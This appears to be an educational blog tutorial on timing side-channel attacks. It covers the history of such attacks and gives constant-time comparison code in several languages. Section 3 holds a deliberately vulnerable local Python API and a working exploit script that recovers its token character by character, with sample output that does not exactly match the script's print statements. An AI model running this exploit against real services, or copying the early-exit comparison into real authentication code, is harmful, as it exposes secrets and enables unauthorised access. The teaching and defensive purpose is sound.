

Imagine trying to open a combination safe by listening to its internal pins. As each dial hits the correct position, the mechanism produces a faint click before the others. Rotating the dial slowly and listening for each click allows you to deduce the combination digit by digit without testing blind permutations.

In software, that mechanical feedback corresponds to variations in CPU execution time.

A random 32-character alphanumeric token provides 62<sup>32</sup> combinations under brute force. A standard check like `if (token == secret)`, however, breaks that assumption by returning as soon as the first character mismatches. Measuring the response time allows an attacker to deduce each character in order.

## 1. Historical context: side-channel vulnerabilities

Timing attacks belong to the broader category of side-channel attacks. Rather than targeting the mathematical structure of ciphers like RSA or AES, side channels exploit physical characteristics of running software, such as power consumption, electromagnetic emissions, and execution time.

### Paul Kocher's timing attack on public-key cryptography (1996)
The concept was formalized by [Paul Kocher in "Timing Attacks on Implementations of Diffie-Hellman, RSA, DSS, and Other Systems" (CRYPTO '96)](https://www.paulkocher.com/doc/TimingAttacks.pdf). Kocher demonstrated that modular exponentiation in public-key cryptography took different amounts of time depending on whether a private key bit was `0` or `1`. By timing signature operations, an attacker could recover the private key without breaking the underlying integer factorization problem.

### Remote timing attacks against OpenSSL (2003)
In 2003, [David Brumley and Dan Boneh published "Remote Timing Attacks are Practical"](https://crypto.stanford.edu/~dabo/papers/ssl-timing.pdf), often cited in analyses of network side channels, such as this [Security StackExchange thread on timing attacks over the internet](https://security.stackexchange.com/questions/183796/are-there-any-successful-cases-of-timing-attacks-over-the-internet).

Brumley and Boneh extracted private RSA keys from an Apache web server running OpenSSL across a local network and between university buildings. The RSA decryption code used Chinese Remainder Theorem (CRT) optimizations with Montgomery multiplication, which varied in execution time based on the prime factors *p* and *q*. The study showed that network jitter can be filtered out with statistical sampling.

In 2009, Scott Crosby, Dan Wallach, and Rudolf Riedi expanded on this in [Opportunities and Limits of Remote Timing Attacks (USENIX Security / Rice University)](https://www.usenix.org/legacy/event/sec09/tech/full_papers/crosby.pdf), demonstrating that microsecond-scale variances could be extracted over the public internet using box plots and Student's *t*-tests.

### Xbox 360 bootloader verification (2007)
In 2007, Microsoft released dashboard updates for the Xbox 360 to patch a hypervisor vulnerability (the King Kong exploit) and used hardware *eFuses* to block firmware downgrades. Reverse engineers responded by targeting side channels.

As documented by [Nate Lawson on Root Labs](https://rdist.root.org/2010/01/07/timing-independent-array-comparison/) and reviewed in [A Survey of Microarchitectural and Software Timing Attacks](https://eprint.iacr.org/2016/613.pdf), the console's bootloader verification routine used the standard C `memcmp` function to validate HMAC-SHA1 signatures. Because `memcmp` returns on the first mismatched byte, invalid signatures failed faster when the first byte was wrong.

Researchers connected hardware probes to the motherboard bus to measure the time until the validation failure reset pulse was asserted. By cycling through byte candidates and observing which value delayed the reset signal by microseconds, they recovered the complete HMAC signature. This allowed unsigned bootloader code to pass integrity checks, downgrading the kernel to a version that allowed running Linux.

### Speculative execution and Spectre (2018)
In 2018, the publication of [Spectre Attacks: Exploiting Speculative Execution (Kocher et al.)](https://spectreattack.com/spectre.pdf) and the disclosure of [Spectre (CVE-2017-5753)](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)), alongside Meltdown, demonstrated that timing channels also affect CPU microarchitecture.

To improve performance, modern processors predict branch outcomes and run instructions ahead of time (*speculative execution*). When a branch prediction fails, the CPU rolls back register updates, but data loaded during speculative execution remains cached.

Using a technique called *Flush+Reload*, an unprivileged process measures memory access latency: cached addresses (L1/L2 hits) load in roughly 4 clock cycles, whereas RAM fetches take hundreds of cycles. In response, web browsers (Chrome, Firefox, Safari) [reduced the resolution of JavaScript timers like performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#reduced_time_precision) and introduced synthetic jitter to block cross-origin timing attacks.

## 2. How timing attacks work

In web applications and APIs, timing leaks most commonly occur during string equality checks, as discussed in [Manoj Neupane's Medium post on Timing Attacks](https://medium.com/@manojneupane787/timing-attacks-the-small-leak-that-can-expose-big-secrets-41f80998399b) and on [Stack Overflow regarding Timing Attacks](https://pt.stackoverflow.com/questions/207650/o-que-%C3%A9-timing-attack-e-onde-ele-se-aplica).

### Early-exit string comparison

Standard string equality implementations across most languages terminate as soon as they find a mismatch:

```python
# How standard equality operators like '==' or 'strcmp' behave:
def early_exit_compare(user_input: str, secret: str) -> bool:
    if len(user_input) != len(secret):
        return False
    
    for i in range(len(user_input)):
        if user_input[i] != secret[i]:
            return False  # <--- EARLY EXIT!
            
    return True
```

For general computing, aborting early saves CPU cycles. For authentication routines, this optimization creates a direct relationship between response time and the number of matching leading bytes:

<div class="my-6 p-5 rounded-xl bg-slate-900 border border-slate-800 text-center shadow-inner">
    <span class="text-xs uppercase tracking-widest text-slate-500 font-mono block mb-2">Timing Leakage Equation</span>
    <div class="font-mono text-lg md:text-xl font-bold text-orange-400">
        Time(k) = T_base + k · Δt
    </div>
</div>

Where:
- `T_base` is network round-trip and server dispatch latency;
- `k` is the count of consecutive matching characters from the start of the string;
- `Δt` is the additional CPU time spent iterating one more character.

If the secret is `"FLAG"`:
1. Submitting `"AAAA"` fails on index 0 (`'A' != 'F'`). Time: ≈ 1.0 ms.
2. Submitting `"FAAA"` matches index 0 (`'F' == 'F'`) and fails on index 1 (`'A' != 'L'`). Time: ≈ 2.0 ms.
3. Submitting `"FLAA"` executes one more loop iteration before failing. Time: ≈ 3.0 ms.

### Search complexity

This relationship changes the scale of brute-force testing:

- Blind brute force: a 16-character alphanumeric token with underscores (63 possibilities per position) requires testing:
  <div class="my-3 p-3 rounded-lg bg-slate-900 border border-slate-800 text-center font-mono text-base font-semibold text-orange-400">
      63<sup>16</sup> ≈ 4.09 × 10<sup>28</sup> combinations
  </div>

- Character-by-character extraction: since response latency signals when a character is correct, each position is tested independently:
  <div class="my-3 p-3 rounded-lg bg-slate-900 border border-slate-800 text-center font-mono text-base font-semibold text-emerald-400">
      63 × 16 = 1,008 requests
  </div>

### Visualizing response times

The diagram below compares response latency between early-exit verification and constant-time verification:

<div class="my-6 rounded-xl overflow-hidden border border-slate-700 shadow-xl bg-white p-2">
    
</div>

Under the early-exit curve (a), each correct character adds an incremental step in response time (T₀ + k · Δt). Under constant-time verification (b), the loop evaluates the entire buffer regardless of mismatches, keeping execution time flat and independent of the secret content.

## 3. Practical implementation: testing a local API

To test this mechanism in executable code, I built a local Python lab environment.

<div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-orange-500 text-slate-300">
    <div class="flex items-center gap-2 text-orange-400 font-bold mb-1">
        <i data-lucide="info" class="w-4 h-4"></i> Lab source code
    </div>
    <p class="text-sm text-slate-300 mb-0">
        You can inspect and run the code directly from the <a href="https://github.com/hertonnn/hertonnn.github.io/tree/main/case_studies/timing_attack" target="_blank" rel="noopener noreferrer" class="text-orange-400 underline font-semibold">case_studies/timing_attack directory on GitHub</a>.
    </p>
</div>

### 3.1 Vulnerable server (`vulnerable_api.py`)

The server handles `POST /verify`, reads the `X-API-Key` header, and compares the token using early-exit logic:

```python
import time
import json
from http.server import HTTPServer, BaseHTTPRequestHandler

SECRET_TOKEN = "FLAG_SEC_2026"
HOST = "127.0.0.1"
PORT = 8000

BASE_DELAY = 0.004       # 4ms base delay upon confirming correct length
CHAR_DELAY = 0.008       # 8ms per matched character

def vulnerable_compare(provided: str, secret: str) -> bool:
    # 1. Length leak:
    if len(provided) != len(secret):
        return False

    # 2. Character-by-character early exit:
    matched = 0
    for c_prov, c_sec in zip(provided, secret):
        if c_prov == c_sec:
            matched += 1
        else:
            break

    # Computational cost proportional to verified characters:
    # Time = T_base + k * Delta_t
    time.sleep(BASE_DELAY + matched * CHAR_DELAY)

    return matched == len(secret)

class TimingAttackHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == "/verify":
            api_key = self.headers.get("X-API-Key", "")
            is_valid = vulnerable_compare(api_key, SECRET_TOKEN)
            
            self.send_response(200 if is_valid else 401)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            
            payload = {
                "authenticated": is_valid,
                "message": "Access granted!" if is_valid else "Invalid token."
            }
            self.wfile.write(json.dumps(payload).encode("utf-8"))
        else:
            self.send_response(404)
            self.end_headers()

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    server = HTTPServer((HOST, PORT), TimingAttackHandler)
    print(f"[*] Vulnerable API active on http://{HOST}:{PORT}/verify")
    server.serve_forever()
```

### 3.2 Exploit script (`exploit.py`)

The exploit script runs in two stages:
1. Length discovery: sends probe lengths from 1 to 16 using a sentinel character (`"!" * length`). The matching length passes the `len()` check, triggering comparison logic that produces a longer response than immediate length rejections.
2. Character extraction: tests the charset for each position using two stabilization techniques:
   - Minimum latency filtering (`min`): selecting the lowest latency among N samples isolates application execution from operating system scheduler jitter and network buffers.
   - Adaptive early-stop: measures a baseline for the slot; as soon as a character meets the expected threshold (`>= baseline + threshold`), the script accepts it and moves to the next position.

```python
import time
import string
import urllib.request
import urllib.error

TARGET_URL = "http://127.0.0.1:8000/verify"
CHARSET = string.ascii_uppercase + string.digits + "_"
SAMPLES_PER_CHAR = 3
CHAR_DELAY_ESTIMATE = 0.008

def measure_latency(candidate_key: str, samples: int = SAMPLES_PER_CHAR) -> float:
    times = []
    for _ in range(samples):
        req = urllib.request.Request(
            TARGET_URL,
            method="POST",
            headers={"X-API-Key": candidate_key, "User-Agent": "TimingAttack-POC"}
        )
        t_start = time.perf_counter()
        try:
            with urllib.request.urlopen(req) as resp:
                resp.read()
        except urllib.error.HTTPError:
            pass  # 401 Unauthorized is expected for invalid attempts
        times.append(time.perf_counter() - t_start)
    return min(times)

def determine_length(max_len: int = 16) -> int:
    print("[*] Phase 1: Identifying secret token length...")
    times_by_length = {}
    for length in range(1, max_len + 1):
        dummy_guess = "!" * length
        min_time = measure_latency(dummy_guess, samples=3)
        times_by_length[length] = min_time
        print(f"    - Testing length {length:2d}: {min_time * 1000:6.2f} ms")
    return max(times_by_length, key=times_by_length.get)

def crack_secret(token_length: int) -> str:
    print(f"[*] Phase 2: Extracting {token_length} characters...")
    recovered = ""
    for pos in range(token_length):
        padding = "!" * (token_length - len(recovered) - 1)
        baseline = measure_latency(recovered + "!" + padding, samples=3)
        threshold = baseline + (CHAR_DELAY_ESTIMATE * 0.65)
        
        best_candidate = None
        max_min_val = -1.0
        for char in CHARSET:
            candidate_key = recovered + char + padding
            val = measure_latency(candidate_key, samples=3)
            if val > max_min_val:
                max_min_val = val
                best_candidate = char
            if val >= threshold:  # Adaptive Early-Stop!
                best_candidate = char
                break
        recovered += best_candidate
        print(f"    [Position {pos:2d}/{token_length}] Char: '{best_candidate}' | Min: {max_min_val * 1000:6.2f} ms | Current: {recovered}")
    return recovered
```

### 3.3 Exploit run output

Running `exploit.py` against the server produces the following output:

```text
===========================================================
  TIMING ATTACK PROOF OF CONCEPT (POC)
  Target: http://127.0.0.1:8000/verify
===========================================================
[*] Phase 1: Identifying secret token length...
    - Testing length  1:   1.83 ms
    - Testing length  2:   1.26 ms
    ...
    - Testing length 12:   1.20 ms
    - Testing length 13:   5.43 ms
    - Testing length 14:   1.68 ms
    - Testing length 15:   1.25 ms
    - Testing length 16:   1.19 ms
[+] Probable secret length detected: 13 characters

[*] Phase 2: Starting character-by-character extraction...
    [Position  0/13] Char: 'F' | Time:  13.99 ms | Scanned:  6/37 | Current: F
    [Position  1/13] Char: 'L' | Time:  21.67 ms | Scanned: 12/37 | Current: FL
    [Position  2/13] Char: 'A' | Time:  29.63 ms | Scanned:  1/37 | Current: FLA
    [Position  3/13] Char: 'G' | Time:  37.73 ms | Scanned:  7/37 | Current: FLAG
    [Position  4/13] Char: '_' | Time:  45.69 ms | Scanned: 37/37 | Current: FLAG_
    [Position  5/13] Char: 'S' | Time:  53.61 ms | Scanned: 19/37 | Current: FLAG_S
    [Position  6/13] Char: 'E' | Time:  61.66 ms | Scanned:  5/37 | Current: FLAG_SE
    [Position  7/13] Char: 'C' | Time:  69.93 ms | Scanned:  3/37 | Current: FLAG_SEC
    [Position  8/13] Char: '_' | Time:  77.86 ms | Scanned: 37/37 | Current: FLAG_SEC_
    [Position  9/13] Char: '2' | Time:  86.00 ms | Scanned: 29/37 | Current: FLAG_SEC_2
    [Position 10/13] Char: '0' | Time:  93.80 ms | Scanned: 27/37 | Current: FLAG_SEC_20
    [Position 11/13] Char: '2' | Time: 102.86 ms | Scanned: 29/37 | Current: FLAG_SEC_202
    [Position 12/13] Char: '6' | Time: 109.95 ms | Scanned: 33/37 | Current: FLAG_SEC_2026

===========================================================
[+] SUCCESS! Token reconstructed: 'FLAG_SEC_2026'
[+] Total attack duration: 52.55 seconds
[*] Validando token recuperado com o alvo...
[+] Server response (HTTP 200): {"authenticated": true, "message": "Access granted!"}
===========================================================
```

Response time rises by roughly 8 ms for each correct character. By position 12, the request takes approximately 110 ms.

## 4. Simulation limits and network conditions

The artificial delays in this lab follow the educational format used in security challenges:

<div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-amber-500 text-slate-300">
    <div class="flex items-center gap-2 text-amber-400 font-bold mb-1">
        <i data-lucide="alert-triangle" class="w-4 h-4"></i> Cryptopals convention
    </div>
    <p class="text-sm text-slate-300 mb-0">
        Adding a small delay per character mirrors the curriculum from the <a href="https://cryptopals.com/sets/4/challenges/31" target="_blank" rel="noopener noreferrer" class="text-amber-400 underline font-semibold">Cryptopals Crypto Challenges (Challenge 31: "Implement and break HMAC-SHA1 with an artificial timing leak")</a> and <a href="https://cryptopals.com/sets/4/challenges/32" target="_blank" rel="noopener noreferrer" class="text-amber-400 underline font-semibold">Challenge 32: "Break HMAC-SHA1 with a less artificial timing leak"</a>. This setup validates the algorithmic logic on a local machine in seconds without requiring hundreds of thousands of network requests.
    </p>
</div>

### Measurements across nanosecond, microsecond, and millisecond scales

The ability to detect timing variations depends on network positioning and the type of operation:

1. Local host and hardware (0.3 ns to 10 ns):
   Code running on the same CPU can read hardware counters directly, such as the x86 `RDTSC` and `RDTSCP` instructions, at sub-nanosecond resolution. Microarchitectural attacks like Spectre and Meltdown distinguish whether an address was served from L1 cache (roughly 4 clock cycles) or main memory (hundreds of cycles). This led browser vendors to [truncate the resolution of performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#reduced_time_precision) and add synthetic jitter to protect cross-origin data.

2. Local area networks (LAN, 1 µs to 50 µs):
   In low-latency LANs, packet jitter is typically in the tens of microseconds. As shown by Brumley and Boneh (2003) and detailed in [Opportunities and Limits of Remote Timing Attacks (Crosby et al.)](https://www.usenix.org/legacy/event/sec09/tech/full_papers/crosby.pdf), the Law of Large Numbers dictates that the standard error of the mean decreases with <em>σ</em> / √<em>N</em>. Collecting between 5,000 and 20,000 samples per candidate washes out transit variance and isolates microsecond deltas.

3. Public internet (WAN):
   - Short memory comparisons (`memcmp` on nanoseconds): network transit variance across routers requires large sample sizes and statistical filters to extract the signal. In shared cloud environments where services run within the same region or data center, round-trip times drop below 1 ms with lower jitter, speeding up extraction.
   - Heavy server-side operations (milliseconds): when routes execute operations that take tens or hundreds of milliseconds, server-side processing dwarfs network jitter, requiring far fewer samples:
     - Password hashing with bcrypt, Argon2, or PBKDF2 (100 ms to 300 ms). If the server rejects nonexistent users before calculating the password hash, response latency reveals valid accounts, as shown in the [PortSwigger Web Security Academy lab on username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing).
     - Database queries with index misses or full table scans.
     - Asymmetric cryptographic signatures or decryptions (RSA or elliptic curves) in payment or authentication flows.

## 5. Defense: libraries and architecture

Defending against timing attacks involves using constant-time comparison primitives and layered architecture controls.

### 5.1 Constant-time comparison

Constant-time comparison requires running the same number of machine instructions regardless of where two byte sequences diverge.

Instead of branching on mismatch with `break` or `return false`, algorithms accumulate differences using bitwise XOR (`^`) and OR (`|=`):

```c
// Classic constant-time memcmp in C:
int constant_time_compare(const unsigned char *a, const unsigned char *b, size_t length) {
    unsigned char result = 0;
    for (size_t i = 0; i < length; i++) {
        result |= a[i] ^ b[i];  // If any bit differs, result becomes non-zero
    }
    return result == 0;
}
```

Because the loop iterates over the entire `length`, execution duration remains uniform and avoids exposing measurable variations.

### 5.2 Implementations by language

Standard libraries provide audited constant-time comparison utilities:

#### Python
Use the `secrets` module (available since Python 3.6) or `hmac`:
```python
import secrets

# SECURE: Constant-time comparison
if secrets.compare_digest(user_token, correct_token):
    # Access granted
```

#### Node.js / JavaScript
Use `crypto.timingSafeEqual`:
```javascript
const crypto = require('crypto');

function safeCompare(a, b) {
    const bufA = Buffer.from(a, 'utf8');
    const bufB = Buffer.from(b, 'utf8');

    // NOTE: timingSafeEqual requires buffers of identical length!
    // To prevent length leakage, hash both values with HMAC beforehand:
    if (bufA.length !== bufB.length) {
        return false;
    }
    return crypto.timingSafeEqual(bufA, bufB);
}
```

#### Java / Kotlin
Use `MessageDigest.isEqual`:
```java
import java.security.MessageDigest;
import java.nio.charset.StandardCharsets;

public boolean safeCompare(String userToken, String secretToken) {
    byte[] a = userToken.getBytes(StandardCharsets.UTF_8);
    byte[] b = secretToken.getBytes(StandardCharsets.UTF_8);
    
    // Constant-time implementation available since Java 6u17
    return MessageDigest.isEqual(a, b);
}
```

#### Go
Use the `crypto/subtle` package:
```go
import "crypto/subtle"

func SafeCompare(userToken, secretToken string) bool {
    // subtle.ConstantTimeCompare checks byte slices without early exit
    return subtle.ConstantTimeCompare([]byte(userToken), []byte(secretToken)) == 1
}
```

#### Rust
Use the `subtle` crate:
```rust
use subtle::ConstantTimeEq;

fn safe_compare(user_token: &[u8], secret_token: &[u8]) -> bool {
    user_token.ct_eq(secret_token).into()
}
```

#### PHP
Use `hash_equals` (available since PHP 5.6):
```php
if (hash_equals($secret_token, $user_token)) {
    // Verified in constant time
}
```

### 5.3 Architecture practices

In addition to using constant-time comparison functions, defense in depth helps protect the application:

1. Pre-hashing with HMAC to prevent length leaks:
   If an incoming token has a mismatched length, a size check can return faster and leak length information. When verifying webhook signatures (such as Stripe and GitHub webhooks), a common pattern is to compute an HMAC-SHA256 digest of both the candidate and the expected token using an internal key, then compare the digests. Because SHA-256 output is always 32 bytes, the comparison never leaks the original token length.

2. Rate limiting on sensitive endpoints:
   Enforcing rate limits on authentication routes (such as 5 attempts per minute per IP) reduces the feasibility of network timing attacks, which rely on thousands of samples to filter jitter.

3. Random delays do not replace constant time:
   <div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-red-500 text-slate-300">
       <div class="flex items-center gap-2 text-red-400 font-bold mb-1">
           <i data-lucide="shield-alert" class="w-4 h-4"></i> Random delay does not prevent timing leaks
       </div>
       <p class="text-sm text-slate-300 mb-0">
           Adding random delays (`sleep`) widens the variance of measurements, but does not stop the attack. Under the Law of Large Numbers, the average noise converges as sample counts increase, leaving the underlying computational difference visible. The effective fix is constant-time execution.
       </p>
   </div>

4. User enumeration via login latency:
   In authentication endpoints, if nonexistent usernames return in 2 ms while valid usernames trigger a password hash taking 150 ms (via bcrypt or Argon2), an attacker can distinguish valid usernames. To balance response times, run a dummy password hash computation when the user lookup returns no record.

## 6. Conclusion

Side channels show that software security depends on execution time and runtime behavior, not just algorithmic design. A standard equality check that returns early can undermine an otherwise strong token. Mitigating the issue requires using language-provided constant-time comparison functions, normalizing input lengths with hashes, and rate limiting sensitive authentication endpoints.
